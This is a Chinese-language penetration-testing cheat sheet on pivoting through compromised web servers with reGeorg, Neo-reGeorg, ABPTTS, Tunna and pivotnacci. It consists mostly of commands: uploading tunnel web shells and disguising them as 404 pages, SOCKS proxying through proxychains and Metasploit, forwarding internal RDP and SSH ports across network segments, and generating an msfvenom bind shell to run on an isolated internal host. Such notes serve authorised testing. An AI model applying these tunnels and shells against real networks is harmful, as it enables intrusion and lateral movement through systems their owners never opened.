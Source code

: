   #### reGeorg
	https://github.com/sensepost/reGeorg
	>python reGeorgSocksProxy.py -u http://靶机/tunnel.aspx -l 外网IP -p 10080
	打开Proxifier，更改为脚本指定的端口10080
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/332.png)

	或proxychains
	>vim /etc/proxychains.conf
	去掉dynamic_chain注释>添加socks5 127.0.0.1 10080
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/333.png)

	或MSF
	>setg proxies socks5:外网IP:10080
	>setg ReverseAllowProxy true 允许反向代理
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/334.png)
  #### Neo-reGeorg
	Step 1. 设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器
	$ python3 neoreg.py generate -k password
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/335.png)

	伪装页面
	$ python3 neoreg.py generate -k <you_password> --file 404.html
	Step 2. 使用 neoreg.py 连接WEB服务器，在本地建立 socks 代理
	$ python3 neoreg.py -k password -u http://xx/tunnel.php
	$ python3 neoreg.py -k <you_password> -u <server_url> --skip
	开启代理
	$ python neoreg.py -k <you_password> -l 外网IP -p 10081 -u http://xx/neo-tunnel.aspx
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/336.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/337.png)
  #### ABPTTS端口转发
	https://github.com/nccgroup/ABPTTS
	端口转发
	>python abpttsfactory.py -o webshell 生成shell
	./webshell目录下生成的相应脚本文件传入目标中
	>python abpttsclient.py -c webshell/config.txt -u "http://目标网址/trans.aspx" -f 攻击机IP:12345/目标IP:3389
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/338.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/339.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/340.png)

	ABPTTS转发内网其他机器端口
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:33890/10.1.1.105:3389
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/341.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/342.png)

	要转发多个机器或多个端口
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:33890/10.1.1.105:3389 -f 192.168.0.107:33891/10.1.1.101:80 -f 192.168.0.107:33892/10.1.1.102:22
	SSH代理一级网段
	需要一台有权限的Linux靶机
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:33890/10.1.1.108:22
	>ssh -p 222 -qTfnN -D 0.0.0.0:1081 root@192.168.0.107
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/343.png)

	配置proxychains即可
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/344.png)

	SSH代理二级网段
	需要靶机web权限，一级内网一台web权限
	转发内网web出来传入abptts的shell
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:8080/10.1.1.108:80 
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.107/qq.aspx -f 192.168.0.107:222/10.1.1.106:22
	SSH连接192.168.0.107:222即可到达二级网络
	反弹msf
	kali生成bind型脚本
	>msfvenom -p linux/x64/shell_bind_tcp LPORT=12138 -f elf -o shell
	在二级不出网linux上执行
	将他的12138端口通过abptts转出
	>python abpttsclient.py -c webshell/config.txt -u http://192.168.0.98/qq.aspx -f 192.168.0.107:13128/10.1.1.101:12138
	Msf本地监听13128即可
  #### Tunna转发
	>python proxy.py -u http://192.168.0.98/tunnel.aspx -l 12138 -r 3389 –v
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/345.png)

  #### pivotnacci
	>pip3 install pivotnacci
	>pivotnacci  https://domain.com/agent.php --password "s3cr3t"
	>pivotnacci  https://domain.com/agent.php --polling-interval 2000